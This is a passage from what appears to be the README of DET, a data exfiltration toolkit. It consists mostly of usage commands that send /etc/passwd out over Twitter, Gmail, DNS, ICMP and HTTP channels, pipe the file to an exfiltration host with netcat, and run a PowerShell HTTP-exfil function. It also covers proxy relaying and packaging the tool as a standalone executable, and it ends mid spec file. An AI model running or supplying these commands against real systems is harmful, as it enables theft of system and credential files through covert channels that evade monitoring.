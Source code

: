 To load every plugin: 

```bash
python det.py -c ./config.json -f /etc/passwd
```

To load *only* twitter and gmail modules: 

```bash
python det.py -c ./config.json -p twitter,gmail -f /etc/passwd
```

To load every plugin and exclude DNS: 

```bash
python det.py -c ./config.json -e dns -f /etc/passwd
```
You can also listen for files from stdin (e.g output of a netcat listener):

```bash
nc -lp 1337 | python det.py -c ./config.json -e http -f stdin
```
Then send the file to netcat:

```bash
nc $exfiltration_host 1337 -q 0 < /etc/passwd
```
Don't forget netcat's `-q 0` option so that netcat quits once it has finished sending the file.

And in PowerShell (HTTP module): 

```powershell
PS C:\Users\user01\Desktop>
PS C:\Users\user01\Desktop> . .\http_exfil.ps1
PS C:\Users\user01\Desktop> HTTP-exfil 'C:\path\to\file.exe'
```

## Proxy mode:

In this mode the client will proxify the incoming requests towards the final destination.
The proxies addresses should be set in ```config.json``` file.

```bash
python det.py -c ./config.json -p dns,icmp -Z
```

# Standalone package

DET has been adapted in order to run as a standalone executable with the help of [PyInstaller](http://www.pyinstaller.org/).

```bash
pip install pyinstaller
```

The spec file ```det.spec``` is provided in order to help you build your executable.

```python
# -*- mode: python -*-

block_cipher = None

import sys
sys.modules['FixTk'] = None

a = Analysis(['det.py'],
             pathex=['.'],
             binaries=[],
             datas=[('plugins', 'plugins'), ('config-sample.json', '.')],
             hiddenimports=['plugins/dns', 'plugins/icmp'],
             hookspath=[],
             runtime_hooks=[],
```